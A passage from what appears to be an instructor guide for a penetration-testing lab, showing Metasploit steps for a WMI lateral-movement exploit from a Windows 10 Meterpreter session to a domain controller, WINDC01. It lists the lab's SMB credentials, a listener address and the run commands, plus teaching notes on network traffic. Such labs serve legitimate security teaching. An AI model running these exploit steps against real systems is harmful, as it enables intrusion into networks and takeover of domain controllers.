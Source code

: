 	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	And run the payload:
	
	- `run -j`

	 ![A screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	 ![A screenshot depicts the successful run and info of the system.](Images/wmiexploit.PNG)		
	
Explain to students that we successfully launched the WMI exploit from our Meterpreter session on Windows 10 to WINDC01. From a network traffic perspective, the exploit content occurred between Windows 10 and WINDC01, instead of Ubuntu to WINDC01. 
